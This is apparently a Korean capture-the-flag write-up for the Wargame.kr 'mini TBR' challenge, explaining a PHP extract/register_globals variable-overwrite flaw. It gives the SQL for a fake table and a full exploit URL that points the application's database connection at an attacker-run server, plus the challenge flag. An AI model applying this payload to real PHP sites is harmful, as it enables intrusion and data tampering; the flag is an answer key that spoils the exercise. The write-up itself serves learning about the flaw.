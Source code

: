 # [Wargame.kr] mini TBR - Writeup

`extract` 함수 혹은 `register_globals` 기능으로 생기는 변수 조작의 취약점을 이용한 문제다.

`$_BHVAR` 변수를 조작해서 데이터베이스 설정이 담겨있는 `database.php` 파일을 `include`하지 못하게 하고,

SQL 연결 및 질의를 내가 지정한 임의의 서버로 오게하여 `$row['path']`를 "hacked"으로 되게 해주면 된다.

포트포워딩과 방화벽 설정 때문에 문제가 좀 있었지만 그거만 빼면 점수에 맞지 않는 쉬운 문제였다.

``` sql
CREATE TABLE `_bh_layout` (
  `path` varchar(15) NOT NULL,
  `layout_name` varchar(15) NOT NULL,
  `position` varchar(15) NOT NULL
) ENGINE=InnoDB DEFAULT CHARSET=utf8;

INSERT INTO `_bh_layout` (`path`, `layout_name`, `position`) VALUES
('hacked', '123', 'head');
```

[http://wargame.kr:8080/mini_TBR/?_type=P&_act=home&_BHVAR[path_layout]=./layouts/&_BHVAR[path_lib]=x./lib/&_BHVAR[path_module]=./modules/&_BHVAR[path_page]=./pages/&_BHVAR[path_tmp]=./tmp/&_BHVAR[db][host]=<MY_IP>&_BHVAR[db][user]=mini_tbr&_BHVAR[db][pass]=mini_tbr_pz&_BHVAR[db][name]=mini_tbr](http://wargame.kr:8080/mini_TBR/?_type=P&_act=home&_BHVAR[path_layout]=./layouts/&_BHVAR[path_lib]=x./lib/&_BHVAR[path_module]=./modules/&_BHVAR[path_page]=./pages/&_BHVAR[path_tmp]=./tmp/&_BHVAR[db][host]=<MY_IP>&_BHVAR[db][user]=mini_tbr&_BHVAR[db][pass]=mini_tbr_pz&_BHVAR[db][name]=mini_tbr)
```
50fe9f64b1840cebffc972fa2a92e3104d626c59
```

___

## Answer

flag: `50fe9f64b1840cebffc972fa2a92e3104d626c59`